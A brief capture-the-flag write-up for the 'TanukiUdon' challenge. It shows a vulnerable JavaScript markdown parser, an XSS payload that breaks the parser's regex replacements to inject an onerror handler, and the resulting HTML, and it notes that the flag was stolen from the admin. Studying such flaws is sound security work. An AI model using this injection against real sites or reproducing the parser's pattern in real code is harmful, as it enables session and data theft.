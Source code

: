 ### TanukiUdon

The challenge implemented a custom markdown parser:

```js
const escapeHtml = (content) => {
  return content
    .replaceAll('&', '&amp;')
    .replaceAll(`"`, '&quot;')
    .replaceAll(`'`, '&#39;')
    .replaceAll('<', '&lt;')
    .replaceAll('>', '&gt;');
}

const markdown = (content) => {
  const escaped = escapeHtml(content);
  return escaped
    .replace(/!\[([^"]*?)\]\(([^"]*?)\)/g, `<img alt="$1" src="$2"></img>`)
    .replace(/\[(.*?)\]\(([^"]*?)\)/g, `<a href="$2">$1</a>`)
    .replace(/\*\*(.*?)\*\*/g, `<strong>$1</strong>`)
    .replace(/  $/mg, `<br>`);
}
```

We've managed to get an XSS via a note with:

```md
![]([)]( onerror=alert`1` )
```

which parsed to:

```html
<img alt="" src="<a href=" onerror=alert`1` ">"></img></a>
```

From there we simply executed the arbitrary XSS and stole admin's flag.
